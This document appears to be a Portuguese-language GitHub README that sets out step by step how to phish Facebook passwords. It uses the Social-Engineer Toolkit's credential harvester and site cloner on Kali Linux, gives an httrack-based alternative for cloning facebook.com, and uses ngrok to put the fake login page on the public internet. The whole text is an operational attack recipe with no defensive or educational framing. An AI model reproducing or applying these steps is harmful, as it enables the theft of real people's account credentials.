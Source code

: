 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit
- httrack (Alternativo)
- ngrok (Opcional)

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Método alternativo

- Acesso root: ``` sudo su ```
- Baixando httrack: ```apt install httrack```
- Clonando a página: ```httrack https://www.facebook.com -O /home/user/directory/facebook ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Cloner Import ```
- ```Press Enter```
- Passando o caminho: ``` /home/user/directory/facebook/m.facebook.com/```
- Site clonado: ```m.facebook.com```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Acessar utilizando ```ip.do.host:porta_host```



### Opcional

- Instalando ngrok: ```https://ngrok.com/download```
- Seguir os processos de criação de conta e autenticação no site do ngrok.
- Liberando link na internet: ```"ngrok http ip.do.host:porta_host```

